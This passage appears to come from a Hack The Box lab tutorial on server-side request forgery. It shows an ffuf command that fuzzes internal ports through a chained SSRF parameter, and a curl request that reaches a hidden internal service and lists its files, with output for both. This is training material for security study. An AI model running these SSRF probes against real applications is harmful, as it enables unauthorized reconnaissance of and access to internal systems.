 In this case, the web application returns some HTML rendered content containing the resource we are trying to fetch. This response will affect our internal service discovery if we use the size of the response as a filter as it will change depending on the port. Fortunately for us, ffuf supports regular expressions for filtering. We can use this ffuf feature to use the error number for filtering responses, as follows.

#### Port Fuzzing

  SSRF Exploitation Example

```shell-session
Pangulin@htb[/htb]$ ffuf -w ./ports.txt:PORT -u "http://<TARGET IP>/load?q=http://internal.app.local/load?q=http::////127.0.0.1:PORT" -fr 'Errno[[:blank:]]111'


        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://<TARGET IP>/load?q=http://internal.app.local/load?q=http::////127.0.0.1:PORT
 :: Wordlist         : PORT: ./ports.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Regexp: Errno[[:blank:]]111
________________________________________________

80                      [Status: 200, Size: 153, Words: 5, Lines: 6]
5000                    [Status: 200, Size: 123, Words: 3, Lines: 5]
:: Progress: [65535/65535] :: Job [1/1] :: 249 req/sec :: Duration: [0:04:06] :: Errors: 0 ::
```

We have found another application listening on port 5000. In this case, the application responds with a list of files.

#### cURL - Interacting with the Target

  SSRF Exploitation Example

```shell-session
Pangulin@htb[/htb]$ curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=http::////127.0.0.1:5000/"

HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 385
Server: Werkzeug/2.0.2 Python/3.8.12
Date: Tue, 19 Oct 2021 20:30:07 GMT

<html><body><h1>Resource: http://127.0.0.1:5000/</h1><a>total 24K
drwxr-xr-x 1 root root 4.0K Oct 19 20:29 .
drwxr-xr-x 1 root root 4.0K Oct 19 20:29 ..
-rw-r--r-- 1 root root   84 Oct 19 16:32 index.html
-rw-r--r-- 1 root root 1.2K Oct 19 16:32 internal.py
-rw-r--r-- 1 root root  691 Oct 19 20:29 internal_local.py
-rwxr-xr-x 1 root root   69 Oct 19 16:32 start.sh
```